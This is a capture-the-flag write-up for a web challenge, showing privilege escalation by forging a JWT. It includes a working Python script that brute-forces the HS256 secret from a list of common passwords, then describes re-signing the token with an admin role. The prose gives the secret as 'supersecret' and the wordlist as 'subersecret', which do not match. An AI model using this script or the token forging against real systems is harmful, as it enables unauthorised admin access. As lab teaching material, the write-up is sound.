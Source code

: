 # Web | Just What you Think

### Coin: 100

**Link**: [https://ctf-1-vo9x.vercel.app/](https://ctf-1-vo9x.vercel.app/)

# Web | Just What you Think

### Coin: 100

**Link**: https://ctf-1-vo9x.vercel.app/

### Step 1: Registering an Account

- I started by registering a new account using the **register** functionality on the website.

### Step 2: Testing Admin Access

- I reviewed the admin functions after logging in
- The response was:
    
    `You are not admin.`
    
- This indicates that my current account does **not** have admin privileges.

### Step 3: Inspecting the JWT

- I captured the **JWT (JSON Web Token)** issued after logging in.
- Then, I decoded it using [jwt.io](http://jwt.io/).
- From the decoded payload, I observed that my role or privilege level was set to:`"role": "user"`

![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image.png)

### Step 4: Analyzing the JWT Setup

To escalate privileges, I needed to analyze how the JWT was being signed.

- My goal was to determine if the JWT signature was using a **weak or common secret key**.
- I suspected that the application might be signing tokens using a predictable or default key.

### Step 5: Brute-Forcing the Secret Key

- I used a Python script to brute-force the JWT secret using a wordlist of common/default secrets.
- You can find the script I used here: [python code with the top 100  default secrets including the one in the challenge `subersecret`](https://www.notion.so/python-code-with-the-top-100-default-secrets-including-the-one-in-the-challenge-subersecret-24ca4a579e0d802e9a53ea9bcb6dc889?pvs=21)
- After running the script, I discovered that the JWT secret key is:`supersecret`
- 


i used this python [code](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881.md) with the most and basic defualt secrets, 

and i found the secret key: it is `supersecret`

![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image%201.png)

then i verified it on jwt.io:

![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image%202.png)

then in JWT Encoder i changed the role to admin using the secret key:

![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image%203.png)

then i set the new token 

![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image%204.png)

and it works i could change my role from user to admin and use the admin funtionality and got the flag

![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image%205.png)

- python code with the top 100  default secrets including the one in the challenge `subersecret`
    
    ```jsx
    import jwt
    
    """
    JWT secret key bruteforce
    """
    
    # JWT Token to decode
    token = input('Enter the Token: ')
    
    # List of common secrets to try
    secrets = [
        "secret", "password", "admin", "123456", "letmein", 
        "changeme", "qwerty", "abcdef", "test", "jwtsecret",
        "admin123", "mysecret", "welcome", "123123", "1q2w3e4r", 
        "123qwe", "root", "toor", "letmein123", "password123", 
        "password1", "iloveyou", "monkey", "sunshine", "football", 
        "1234", "princess", "qwerty123", "12345", "123abc", 
        "hello", "welcome123", "123qaz", "adminadmin", "trustno1", 
        "trustnoone", "shadow", "master", "guest", "god", "test123",
        "hunter2", "admin1234", "changeme123", "p@ssw0rd", 
        "letmein1234", "welcome1", "passw0rd", "root123", "p@ssword", 
        "qwertyuiop", "monkey123", "iloveyou123", "12345qwerty", "abc123", 
        "qwertyui", "password321", "secret123", "abcd1234", "1234qwerty", 
        "1qaz2wsx", "qazwsx", "1qazXSW@", "myadmin", "letmeinqwerty", 
        "hello123", "admin12345", "12345admin", "welcome12345", "qwerty12",
        "letmeinqwerty123", "y0u45ecreT", "s3cret", "p4ssword", "secretkey", 
        "forbidden", "getoverit", "password111", "1234root", "god123", 
        "access123", "passphrase", "mysupersecret", "iloveyou1", "secure123", 
        "abcde12345", "password!123", "12345letmein", "12345secret", "asdfgh", 
        "pass123", "fakepassword", "thisispassword", "ilovepassword", "1234test",
        "secretpassword", "user123", "123456789", "welcome12345", "subersecret"
    ]
    
    # Try each secret
    for secret in secrets:
        try:
            # Attempt to decode the token with the current secret
            decoded = jwt.decode(token, secret, algorithms=['HS256'])
            print(f"[+] Success! \n[+] Secret: {secret} -> Payload: {decoded}")
            break  # Exit once the valid secret is found
        except jwt.ExpiredSignatureError:
            print(f"Expired signature, secret: {secret}")
        except jwt.InvalidTokenError:
            pass  # Ignore invalid token errors
    ```
